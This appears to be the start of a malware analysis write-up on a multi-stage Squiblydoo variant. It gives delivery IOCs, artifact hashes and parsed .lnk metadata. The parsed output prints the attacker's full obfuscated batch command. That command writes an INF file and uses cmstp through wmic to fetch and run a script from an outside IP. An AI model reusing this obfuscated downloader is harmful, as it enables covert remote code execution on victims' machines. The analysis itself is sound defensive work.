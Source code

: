 # Analysis of a Multi-stage Squiblydoo variant

# Analysis of a Multi-stage Squiblydoo variant



The first foothold of the Malware was delivered via IP Address (IOC) `209.141.61.11`. When the user navigates to that server, depending on the User-Agent string of the request, you'll either get a signed, legitimate, non-malicious PDF document (Artifact #1 ZIP, `1d2d5b2befe5fcfea8e9303d87b92adaaf9f161a82e0e1341008518d1585e81a`, VT 0/60) or a page with a simple CAPTCHA (Artifact #2 PCAP, `dfed73960bd9aa030cc5d84df18eaf2d295dfa7f990614c53673e74b84034ef5`, VT N/A) that ultimately leads to a ZIP file (Artifact #3 PCAP, `38dcef9b23f21a98fe9dde3f5b5eb643292bf41556b7e4d5da30484848c4cf3d`, VT N/A and Artifact #4 ZIP, `db647308649e2d3815f7d53d024ac50e8dead8a3caf33bc203dac90b5dbb1596`, VT 15/61).

The ZIP file contains a single `.lnk` file (Artifact #5 LNK, `c32bb3eb1634d6765e41fcb7071d1ca2b70bb50dc3cb7c9da84a00427b3dd642`, VT 15/56)

Since `lnk` files are not easy to manually parse, I used [pylnker](https://raw.githubusercontent.com/HarmJ0y/pylnker/master/pylnker.py):

```batch
out:  Lnk File: artifacts/artifact5.lnk
Link Flags: HAS SHELLIDLIST | POINTS TO FILE/DIR | NO DESCRIPTION | NO RELATIVE PATH STRING | NO WORKING DIRECTORY | HAS CMD LINE ARGS | HAS CUSTOM ICON
File Attributes: ARCHIVE
Create Time:   1601-01-01 11:39:04
Access Time:   1601-01-01 11:39:04
Modified Time: 1601-01-01 11:39:04
Target length: 236032
Icon Index: 2
ShowWnd: SW_NORMAL
HotKey: 0
Target is on local volume
Volume Type: Fixed (Hard Disk)
Volume Serial: 00000000
Vol Label: 
Base Path: 
(App Path:) Remaining Path: 
Command Line: /v /c set "UoglocMF5002=items" && call set "UoglocMF94812=%UoglocMF5002:~4,1%" && !UoglocMF94812!et "UoglocMF5127=a" && !UoglocMF94812!et "UoglocMF6603=t" && !UoglocMF94812!et "UoglocMF06364=d" && !UoglocMF94812!et "UoglocMF9305=c" && call !UoglocMF94812!et "UoglocMF21627=%ran!UoglocMF06364!om%.inf" && call !UoglocMF94812!et "UoglocMF6838=%app!UoglocMF06364!ata%\Micro!UoglocMF94812!oft\!UoglocMF21627!" && !UoglocMF94812!et "UoglocMF14637=." && !UoglocMF94812!et "UoglocMF15608="^" && (for %l in ("[ver!UoglocMF94812!ion]" "!UoglocMF94812!ign!UoglocMF5127!ture=$Window!UoglocMF94812! NT$" "[!UoglocMF06364!e!UoglocMF94812!tinationdirs]" "2D0D=01" "[!UoglocMF06364!efaultin!UoglocMF94812!tall_singleu!UoglocMF94812!er]" "UnRegis!UoglocMF6603!erOCXs=F251A5" "!UoglocMF06364!elfiles=2D0D" "[F251A5]" "%11%\%UoglocMF7741%crO%UoglocMF37180%j,NI,%UoglocMF2085%%UoglocMF5568%%UoglocMF5568%p%UoglocMF54670%%UoglocMF92584%%UoglocMF92584%209!UoglocMF14637!%UoglocMF0342%141!UoglocMF14637!%UoglocMF0342%61!UoglocMF14637!%UoglocMF0342%11/update!UoglocMF14637!%UoglocMF0342%txt" "[2D0D]" "!UoglocMF21627!" "[!UoglocMF94812!!UoglocMF6603!rings]" "UoglocMF5568=t" "UoglocMF2085=h" "UoglocMF54670=:" "UoglocMF7741=s" "UoglocMF92584=/" "UoglocMF37180=b" "UoglocMF0342=" "!UoglocMF94812!ervicen!UoglocMF5127!me=' '" "!UoglocMF94812!hortsvcn!UoglocMF5127!me=' '") do @e!UoglocMF9305!ho %~l)>"!UoglocMF6838!"&& !UoglocMF94812!t!UoglocMF5127!rt "" /MIN wmi!UoglocMF9305! proce!UoglocMF94812!s call !UoglocMF9305!rea!UoglocMF6603!e "cm!UoglocMF94812!!UoglocMF6603!p /ns /!UoglocMF94812! /su !UoglocMF6838!"
Icon filename: ieframe.dll
```
